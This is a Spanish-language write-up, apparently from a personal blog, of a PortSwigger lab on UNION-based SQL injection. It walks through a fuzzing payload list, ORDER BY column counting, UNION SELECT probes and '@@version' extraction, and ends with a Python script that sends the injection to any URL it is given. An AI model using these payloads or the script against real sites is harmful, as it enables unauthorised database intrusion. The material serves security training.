 ```yaml
---
title: "08 SQLi attack, querying the database type and version on MySQL & Microsoft"
collection: publications
category: portswigger
permalink: /publications/08_SQLi attack, querying the database type and version on MySQL & Microsoft
excerpt: 'Este laboratorio contiene una vulnerabilidad de inyección SQL en el campo de categoría de producto. Para resolver el laboratorio, realizamos un ataque de inyección SQL basado en UNION que consulta el tipo y la versión de la base de datos en bases de datos de Microsoft y MySQL.'
date: 2024-12-01
#venue: 'Journal 1'
#slidesurl: 'http://academicpages.github.io/files/slides1.pdf'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
citation: 'SQLi attack, querying the database type and version on MySQL & Microsoft'
---
```


![logo]({{site.url}}/images/SQLi/sqli-7/logo.png)

## Descripción del laboratorio

![Descripción]({{site.url}}/images/SQLi/sqli-7/descripcion.png)

## Objetivo del laboratorio

Para resolver el laboratorio, visualice la cadena de versión de la base de datos.

## Determinamos que el campo si es vulnerable

Ingresamos una lista de payloads y ejecutamos con Burpsuite

```javascript
'
''
`
``
,
"
""
/
//
\
\\
;
' or "
-- or # 
' OR '1
' OR 1 -- -
" OR "" = "
" OR 1 = 1 -- -
' OR '' = '
'='
'LIKE'
'=0--+
 OR 1=1
' OR 'x'='x
' AND id IS NULL; --
'''''''''''''UNION SELECT '2
%00
/*…*/ 
+		addition, concatenate (or space in url)
||		(double pipe) concatenate
%		wildcard attribute indicator
@variable	local variable
@@variable	global variable
```

![Intruder]({{site.url}}/images/SQLi/sqli-8/resultado.png)

Y probamos uno de los resultados

![Intruder]({{site.url}}/images/SQLi/sqli-8/resultado2.png)

## Determinar el numero de columnas retornadas por la consulta

Miramos la cantidad decolumnas retornar hasta que arroje error. Vemos que nos arroja 2 columnas.

```javascript
' ORDER BY 1#
' ORDER BY 2#
```

![Intruder]({{site.url}}/images/SQLi/sqli-8/order by.png)

## Miramos que columna es de tipo 'String'

Inyectamos en cada una de ellas mirando cual podemos inyectar 'String', en esta ocación que es BD MySQL necesitamos comentar con #.
Los 2 campos son de tipo `String`

```javascript
' UNION SELECT 'A', NULL#
' UNION SELECT NULL, 'A'# 
' UNION SELECT 'A', 'A'#
```

![String]({{site.url}}/images/SQLi/sqli-8/campos string.png)

## Miramos la versión de la BD

[Hoja de Trucos](https://portswigger.net/web-security/sql-injection/cheat-sheet)

Ya que sabemos que es una BD MySQL

```javascript
' UNION SELECT 'A', @@version#
```

![DB version]({{site.url}}/images/SQLi/sqli-8/version.png)

## Aprobado 

![Aprobado]({{site.url}}/images/SQLi/sqli-8/Aprobado.png)

# Codigo Python

```python
import requests
import sys
import urllib3
from bs4 import BeautifulSoup
import re
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def explot_sqli_version(url):
    path = "/filter?category=Gifts"
    sql_payload = "' UNION SELECT @@version, NULL#"
    r = requests.get(url + path + sql_payload, verify=False, proxies=proxies)
    res = r.text
    soup = BeautifulSoup(res, 'html.parser')
    version = soup.find(string=re.compile(r'.*\d{1,2}\.\d{1,2}\.\d{1,2}.*'))
    if version is None:
        return False
    else:
        print("[-] The database version is: " + version)
        return True

if __name__ == "__main__":
    try:
        url = sys.argv[1].strip()
    except IndexError:
        print("[-] Usage: %s <url>" % sys.argv[0])
        print("[-] Example: %s www.example.com" % sys.argv[0])
        sys.exit(-1)
    print("[+] Dumping the version of  the database...")
    if not explot_sqli_version(url):
        print("[-] Unable to dump the database version.")
```